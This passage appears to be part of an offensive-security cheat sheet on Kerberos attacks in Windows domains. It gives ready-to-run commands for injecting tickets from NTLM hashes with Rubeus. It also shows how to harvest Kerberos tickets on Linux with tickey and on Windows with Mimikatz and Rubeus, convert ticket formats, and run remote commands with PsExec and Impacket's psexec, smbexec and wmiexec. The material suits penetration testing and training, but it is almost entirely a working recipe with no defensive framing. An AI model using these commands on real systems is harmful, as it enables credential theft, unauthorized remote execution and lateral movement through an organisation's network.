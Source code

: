 
With [Rubeus](https://github.com/GhostPack/Rubeus) and [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):
```shell
# Ask and inject the ticket
.\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt

# Execute a cmd in the remote machine
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

## Pass The Ticket (PTT)
### Harvest tickets from Linux
Check type and location of tickets:
```shell
grep default_ccache_name /etc/krb5.conf
```
- If none return, default is FILE:/tmp/krb5cc_%{uid}.

In case of file tickets, you can copy-paste (if you have permissions) for use them.
In case of being *KEYRING* tickets, you can use [tickey](https://github.com/TarlogicSecurity/tickey) to get them:

```shell
# To dump current user tickets, if root, try to dump them all by injecting in other user processes
# to inject, copy tickey in a reachable folder by all users
cp tickey /tmp/tickey
/tmp/tickey -i
```

### Harvest tickets from Windows
- With [Mimikatz](https://github.com/gentilkiwi/mimikatz):
```shell
mimikatz # sekurlsa::tickets /export
```

- With [Rubeus](https://github.com/GhostPack/Rubeus) in Powershell:
```shell
.\Rubeus dump

# After dump with Rubeus tickets in base64, to write the in a file
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<bas64_ticket>"))
```


To convert tickets between Linux/Windows format with [ticket_converter.py](https://github.com/Zer1t0/ticket_converter):
```shell
python ticket_converter.py ticket.kirbi ticket.ccache
python ticket_converter.py ticket.ccache ticket.kirbi
```

### Using ticket in Linux:

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:
```shell
# Set the ticket for impacket use
export KRB5CCNAME=<TGT_ccache_file_path>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
